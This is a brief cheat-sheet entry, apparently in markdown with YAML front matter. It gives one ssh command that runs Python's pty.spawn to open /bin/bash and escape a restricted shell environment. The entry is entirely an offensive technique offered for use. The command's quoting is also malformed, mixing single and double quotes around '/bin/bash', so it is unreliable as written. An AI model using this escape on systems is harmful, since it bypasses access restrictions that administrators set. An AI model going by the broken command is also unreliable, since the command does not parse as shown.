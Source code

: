 ```yaml
---
description: Invoke python at ssh login
---
```


# SSH login to access CLI (restricted env escape)

`ssh user@host "python -c \"import pty; pty.spawn('/bin/bash")\""`
